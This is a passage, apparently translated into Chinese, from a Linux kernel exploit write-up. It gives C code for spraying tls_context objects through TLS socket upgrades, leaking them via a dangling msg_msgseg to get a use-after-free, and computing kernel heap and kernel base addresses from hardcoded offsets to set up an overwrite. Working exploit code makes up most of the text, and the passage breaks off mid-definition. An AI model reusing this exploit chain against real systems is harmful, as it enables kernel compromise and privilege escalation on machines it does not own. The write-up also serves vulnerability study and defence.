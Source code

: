 ## 重新分配为 tls\_context 类型

```plain
socket(AF_INET, SOCK_STREAM, 0);
```

为了在内核堆中喷出 tls\_context 对象，从而覆盖我们的悬空的 msg\_msgseg，我们像上面一样预先准备了一堆套接字，

```plain
struct sockaddr_in server;
inet_aton("127.0.0.1", &server.sin_addr);
server.sin_port = htons(9999);
server.sin_family = AF_INET;
if (connect(fd, (struct sockaddr*)&server, sizeof(server))) {
    perror("connect");
    return ERR;
}
tls_fds[i] = fd;
We connect each new socket to a local server.

int fd = tls_fds[i];
// struct tls_context allocation in kmalloc-512
if (setsockopt(fd, SOL_TCP, TCP_ULP, "tls", sizeof("tls"))) {
    perror("setsockopt(fd, SOL_TCP, TCP_ULP, \"tls\"");
    printf("fd: %d\n", fd);
    return ERR_UNFIN(i);
};
```

然后，在准备好的时候（在所有前面的利用阶段之后），我们升级这些已连接的套接字，并在此过程中为每个套接字分配一个`tls_context`

## Leaking tls\_context

```plain
static inline err_t leak_tls_contexts(struct manager *mgr)
{
    char *leak = (char *)mgr->leak;
    uint64_t *store = mgr->msq_ids;
    IF_ERR_RET(leak_msg(DEAD_LIST_PATTERN, store, TOTAL_MSGS, leak, MSG_SIZE))
    print_leak(leak);
    return SUCC;
}
```

现在，我们的一个消息包含了`tls_context`对象，我们可以尝试在一些消息中找到`DEAD_LIST_PATTERN`，该消息的 ID 存储在**mgr->msq\_ids**中，其内容将被输出到**mgr->leak**，重要的是，接收消息将释放它，因此，现在我们有了一个`tls_context` `Use-After-Free`（哈哈），

## 覆盖 tls\_context 对象

```plain
static inline err_t prepare_tls_overwrite(struct manager *mgr)
{
#define KHEAP_PTR_OFF (200)
#define RO_PTR_OFF (224)
#define LIST_OFF (0x98)
#define BASE_OFF (0x180b660)
#define MSGSEG_OFF (4000)    
    /* Extract pointers and wipe the data, ready for spray. */
    char *leak = (char *)mgr->leak + MSGSEG_OFF;
    uint64_t tls_context = *(uint64_t*)&leak[KHEAP_PTR_OFF] - LIST_OFF;
    uint64_t kernel_base = *(uint64_t*)&leak[RO_PTR_OFF] - BASE_OFF;
    printf("[+] Current tls_context @ %lx\n", tls_context);
    printf("[+] Kernel base @ %lx\n", kernel_base);
    memset((char *)mgr->leak, 0, MSG_SIZE);

#define GETSOCKOPT_OFF (40)
```